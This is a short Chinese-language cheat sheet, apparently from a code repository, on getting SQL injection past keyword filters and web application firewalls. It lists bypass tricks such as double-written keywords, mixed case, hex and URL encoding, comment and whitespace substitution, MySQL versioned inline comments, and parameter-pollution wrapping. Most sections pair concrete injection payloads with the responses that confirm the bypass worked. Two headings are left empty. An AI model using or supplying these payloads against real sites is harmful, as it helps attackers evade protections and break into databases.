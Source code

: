 # 基本

## 过滤关键字

1.  双写 oorr
2.  大小写 SelECt
3.  16进制 selec\\x74
4.  双写url or %23%36%66%25%37%32

## 过滤空格

1.  注释绕过

```
# -- // /**/ ;%00
```

2.  url编码绕过
    %20 %2520
3.  空白字符绕过
    mysql5 09,0A,0B,0C,0D,A0,20
4.  特殊符号
    反引号加号减号感叹号
5.  科学计数法
    0e1

## 过滤单引号

## 相等过滤

# waf四种方式

## 内联注释

内联注释格式:/*!5位数字,但是不能大于版本号 关键字 */
(这里的5位数字最好带44,测试过程中发现带44绕过的概率较大,这跟安全狗版本有关系)
输入:?id=1' order by 1--+ 被拦截,有关键字order by
输入:?id=1' /*!44544order*//*!23444by*/ 3--+ 正常显示
输入:?id=1' /*!44544order*//*!23444by*/ 4--+ 页面输出不正常,unknow column '4' 说明此时列数为3列

## 内联反向

内联注释格式:/*!5位数字,数字要大于版本号 注释内容 */
输入:?id=1' order by 1--+ 被拦截,有关键字order by
输入:?id=1' /*!84544sansan*/order/*!83444susncs*/by 3 --+ 页面正常显示
输入:?id=1' /*!84544sansan*/order/*!83444susncs*/by 4 --+ 页面显示不正常,输出unknow column '4' 说明此时有3列

## GET传参

基本格式: 参数名=/*&正常参数&参数名=*/ ;
输入:?id=-1' order by --+ 页面被拦截
输入:?a=/*&id=1' order by 3--+ &b=*/ 绕过,页面正常显示
输入:?a=/*&id=1' order by 4--+ &b=*/ 绕过,页面输出不正常,unknow column '4' 说明此时有3列

## URL编码+16进制编码

%!字母 ,然后用/*URL编码*/做注释
输入:?id=-1' order by --+ 页面被拦截
输入:?id=1' order/*%!a*/by 3 --+ 绕过,页面正常
输入:?id=1' order/*%!a*/by 4 --+ 绕过,页面不正常,unknow column '4' 说明有3列